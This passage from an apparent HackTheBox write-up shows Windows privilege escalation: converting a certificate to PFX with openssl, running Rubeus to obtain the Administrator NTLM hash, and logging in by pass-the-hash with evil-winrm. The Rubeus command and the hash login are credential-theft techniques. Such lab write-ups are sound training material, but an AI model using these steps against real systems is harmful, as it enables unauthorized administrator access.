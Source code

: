 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/06511bbe-11a1-4025-9ff9-a6e152e5ef29)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8f7a08ac-bdde-4dea-82bc-91d6138f79a3)

Next, I needed to convert the certificate from PEM to PFX format. I saved the certificate in a file named cert.pem on my attack box and executed the following command:

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/658530bf-c98a-42ea-955e-052248835526)

Note: I left the password field blank.

Once the cert.pfx file was generated, I uploaded it to the Windows machine:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4f56bc7b-0c96-478c-b6cb-eb02c9f94f60)

After uploading the file, I used Rubeus to obtain Administrator credentials:

```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ef1316fa-dd5c-4d90-a685-f5fbe1500e59)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/91e3ed5e-a3d5-45e8-8811-d28122bb0f82)

Since I had the Administrator NTLM hash, I could either crack it or, to save time, use it directly to log in using evil-winrm.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/3feef42c-2442-4567-8370-d3fec37d69b1)

After logging in using the Admin Hash, I finally obtained the root.txt flag. (pwn3d!🙂)

